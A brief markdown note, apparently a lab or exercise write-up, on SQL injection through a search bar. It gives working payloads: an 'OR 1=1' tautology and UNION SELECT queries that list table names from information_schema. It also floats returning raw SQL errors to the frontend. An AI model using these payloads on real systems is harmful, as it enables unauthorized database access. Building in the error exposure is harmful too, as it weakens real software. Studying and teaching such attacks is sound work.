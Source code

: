 # SQL Injection

Simples sql injection is possible by putting `'OR 1=1) -- '` in the search bar

### Thought process

Could be good to allow user to look into the query syntax somehow on error (return sql errors straight to the fronted?)

Next step is getting info about tables:
`') UNION ALL SELECT 0,1,2,3,4,5,6,7,8,9 FROM information_schema.tables -- .`

INFORMATION_SCHEMA.TABLES have columns:

> TABLE_NAME, ENGINE, VERSION, ROW_FORMAT, TABLE_ROWS, AVG_ROW_LENGTH,
> DATA_LENGTH, MAX_DATA_LENGTH, INDEX_LENGTH, DATA_FREE, AUTO_INCREMENT,
> CREATE_TIME, UPDATE_TIME, CHECK_TIME, TABLE_COLLATION, CHECKSUM,
> CREATE_OPTIONS, TABLE_COMMENT

Useful is probably this one:

> TABLE_NAME

`') UNION ALL SELECT 0,1,table_name,3,4,5,6,7,8,9 FROM information_schema.tables -- .`
